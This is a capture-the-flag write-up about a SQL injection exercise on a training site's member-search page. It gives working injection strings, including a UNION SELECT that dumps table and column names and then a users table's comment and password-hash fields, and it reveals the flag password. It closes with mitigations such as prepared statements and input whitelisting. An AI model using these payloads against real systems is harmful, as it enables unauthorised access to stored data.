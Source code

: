 ### CTF

First, go to the Members page of the website. You are asked to enter a member's id in order to find their profile. By doing so, you should get a result that looks very much like this:
```
    ID: 1 
    First name: Barack Hussein
    Surname : Obama
```
Now, we test if the queries are vulnerable to SQL injections. Indeed, a simple injection (eg. '105 OR 1=1') allows us to see all registered members. One is particularly interesting, as it is called "GetTheFlag". We now want to retrieve as much data as possible using SQL queries.

A quick request tell us that we are dealing with a MySql database. The correct syntax to retrieve all sensitive information is:

    1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns

(Note that we know `information_schema` has two columns upon further investigation.)

The table `users` has `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire` and `countersign` columns.
```
    ID: 1 AND 1=2 UNION SELECT Commentaire, countersign FROM users 
	First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
	Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
We simply follow the given instructions: the password is `fortytwo`

### How to protect yourself

There are multiple solutions:
- One simple solution, and one of the most secured would be to use _prepared SQL requests_, meaning requests taking parameters.
Prepared requests' parameters are not interpreted as SQL, so you can't alter the initial request.
- Use of stored procedures, that is, creating an alias to a SQL request, this alias can take parameters.  
However this solution is not fullproof, especially if it includes any unsafe dynamic SQL generation.
- You could also create a whitelist input validation. This can be useful if you expect different specific values.
- Another solution would be to escape all user inputs so they can't be interpreted as a request.  
Of course you would not escape password inputs, you should hash them, because... who still stores clear passwords ?


